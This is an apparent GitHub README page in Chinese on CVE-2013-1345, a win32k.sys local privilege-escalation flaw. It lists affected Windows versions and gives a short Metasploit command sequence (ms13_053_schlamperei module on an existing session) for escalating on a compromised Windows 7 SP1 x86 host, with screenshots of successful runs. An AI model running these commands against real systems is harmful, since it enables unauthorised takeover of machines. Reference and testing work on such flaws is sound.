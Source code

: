 ### CVE-2013-1345

#### 描述

内核模式驱动程序中的win32k.sys不会 正确处理内存中的对象，这允许本地用户通过精心设计的应用程序获得特权。

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 7           |                  |         | SP1    | :heavy_check_mark: |
| Windows 8           |                  |         |        |                    |
| Windows Rt          |                  |         |        |                    |
| Windows Server 2003 |                  |         | SP2    |                    |
| Windows Server 2008 |                  |         | SP2    | :heavy_check_mark: |
| Windows Server 2008 |                  | R2      | SP1    | :heavy_check_mark: |
| Windows Server 2012 |                  |         |        |                    |
| Windows Vista       |                  |         | SP2    |                    |
| Windows Xp          |                  |         | SP2    |                    |
| Windows Xp          |                  |         | SP3    |                    |

#### 利用方式

> X86利用

测试系统windows 7 sp1 x86 ，直接使用msf即可，我们当机器已经上线了

```
use exploit/windows/local/ms13_053_schlamperei
set SESSION 2 #你上线机器的session
run
```

![image-20200822151416515](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2013-1345_win7_x86.png?raw=true)

Windows sever 2003 sp2 x86 和Windows sever 2003 R2 sp2 x86都测试成功，但是利用文件没有源码只有exe可执行文件

Windows sever 2003 sp2 x86 动图如下

![17](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2013-1345_win2003_x86.gif?raw=true)

Windows sever 2003 R2 sp2 x86 动图如下

![18](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2013-1345_win2003_x86_2.gif?raw=true)

